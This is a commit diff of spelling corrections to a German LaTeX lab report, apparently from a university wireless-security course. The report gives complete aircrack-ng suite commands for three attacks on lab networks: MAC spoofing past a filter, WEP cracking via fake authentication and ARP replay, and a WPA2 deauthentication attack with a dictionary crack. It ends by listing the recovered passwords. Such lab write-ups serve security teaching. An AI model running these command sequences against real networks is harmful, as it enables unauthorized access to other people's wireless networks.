

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/1/1_protokoll.tex): two parts of pages 1 and 2 of 6, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
rechtschreibfehler korrigiert

```diff
--- a/Protokolle/1/1_protokoll.tex
+++ b/Protokolle/1/1_protokoll.tex
@@ -31,7 +31,7 @@
 
 \subsection{Angriff auf OpenBernd}
 
-Mittels \texttt{airodump-ng -w output mon8} beobachteten wir den WLAN Netzwerkverkehr. Das Interface \texttt{mon8} war das Zugangsinterface zum Interface \texttt{wlan1} im Monitormode. Die folgende Zeile fiel aus dabei auf. Ein Gerät mit der MAC Adresse \texttt{00:C0:CA:55:54:5C} hat sich versucht am Netzwerk \texttt{OpenBernd} anzumelden.
+Mittels \texttt{airodump-ng -w output mon8} beobachteten wir den WLAN Netzwerkverkehr. Das Interface \texttt{mon8} war das Zugangsinterface zum Interface \texttt{wlan1} im Monitormode. Die folgende Zeile fiel uns dabei auf: Ein Gerät mit der MAC Adresse \texttt{00:C0:CA:55:54:5C} hat sich versucht am Netzwerk \texttt{OpenBernd} anzumelden.
 \begin{small}
 \begin{verbatim}
 Station MAC, First time seen, Last time seen, Power, # packets, BSSID, Probed ESSIDs
@@ -40,27 +40,27 @@
 ...
 \end{verbatim}
 \end{small}
-Nach dem wir mittels \texttt{ip link set dev wlan1 address 00:C0:CA:55:54:5C} die MAC Adresse unseres Interface \texttt{wlan1} geändert hatten, konnten wir uns mit dem Netz \texttt{OpenBernd} verbinden.
+Nachdem wir mittels \texttt{ip link set dev wlan1 address 00:C0:CA:55:54:5C} die MAC Adresse unseres Interface \texttt{wlan1} geändert hatten, konnten wir uns mit dem Netz \texttt{OpenBernd} verbinden.
 
 \subsection{Angriff auf Bernd}
 
-Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir mit der Netzwerkkarte in das Netzwerk Bernd Packete injizieren können.
+Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir mit der Netzwerkkarte in das Netzwerk Bernd Pakete injizieren können.
 \begin{verbatim}
 aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1
 \end{verbatim}
-Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels eine Fakeauthentifizierung durch.
+Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels folgendem Befehl eine Fakeauthentifizierung durch.
 \begin{verbatim}
 aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1
 \end{verbatim}
-Dannach schnitten wir alle Packete im Netzwerk mit:
+Dannach schnitten wir alle Pakete im Netzwerk mit:
 \begin{verbatim}
 airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1
 \end{verbatim}
-Um die Menge an beobachteten Packeten zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Packet wieder in das Netzwerk eingespielt.
+Um die Menge an beobachteten Paketen zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Paket wieder in das Netzwerk eingespielt.
 \begin{verbatim}
 aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
 \end{verbatim}
-Nach circa 10 Minuten Packete mitschneiden knackten wir auf Basis der mitgeschnittenen Packete den WEP PreSharedKey:
+Nach circa 10 Minuten Pakete mitschneiden knackten wir auf Basis der mitgeschnittenen Pakete den WEP PreSharedKey:
 \begin{verbatim}
 aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
 \end{verbatim}
@@ -85,12 +85,12 @@
 
 \subsection{Angriff auf SecureBernd}
 
-Mittels \texttt{sudo airodump-ng -c 3 --bssid 64:70:02:1C:4F:13 -w psk wlan1} schnitten wir den gesamten Verkehr mitsamt der 4 Way Handshakes des WPA2 mit und speicherten sie. Da wir keine Handshakes sahen, fuhren wir mittels
+Mittels \texttt{sudo airodump-ng -c 3 --bssid 64:70:02:1C:4F:13 -w psk wlan1} schnitten wir den gesamten Verkehr und speicherten ihn, um einen 4 Way Handshake des WPA2 mitzubekommen. Da wir keine Handshakes sahen, fuhren wir mittels
 \begin{verbatim}
 sudo aireplay-ng -0 1 -a 64:70:02:1C:4F:13 -c 00:C0:CA:55:54:5E wlan2 --ignore-negative-one
 \end{verbatim}
-Eine deauthentificationsattacke. Dadurch versuchten wir, dass sich der Client mit der MAC Adresse
-\texttt{00:C0:CA:55:54:5E} wieder mit dem Accesspoint verbindet. Laut der Ausgabe von \texttt{airodump-ng} haben wir mindestens einen Handshake mitgeschnitten.
+eine Deauthentifikationsattacke. Dadurch versuchten wir, dass sich der Client mit der MAC Adresse
+\texttt{00:C0:CA:55:54:5E} wieder mit dem Accesspoint verbindet. Laut der Ausgabe von \texttt{airodump-ng} haben wir so mindestens einen Handshake mitgeschnitten.
 Danach starteten wir einen BruteForce Angriff auf den mitgeschnittenen Handshake mittels
 \begin{verbatim}
 aircrack-ng -w password.lst -b 64:70:02:1C:4F:13 psk*.cap
@@ -100,7 +100,7 @@
 
 \subsection{Ergebnisse:}
 \begin{itemize}
-	\item Zugriff auf das WLAN \texttt{OpenBernd} bekommt man indem man seine MAC Adresse auf \texttt{00:C0:CA:55:54:5C} ändert.
+	\item Zugriff auf das WLAN \texttt{OpenBernd} bekommt man, indem man seine MAC Adresse auf \texttt{00:C0:CA:55:54:5C} ändert.
 	\item Das WLAN \texttt{Bernd} ist mit dem WEP Passwort \texttt{q2VNKz1GsRqYA} gesichert.
 	\item Das WLAN \texttt{SecureBernd} ist mit dem WPA2 Passwort \texttt{zygosaccharomyces} abgesichert.
 \end{itemize}
```
Also changed, not shown: Protokolle/1/1_protokoll.tex (10 more changed lines).
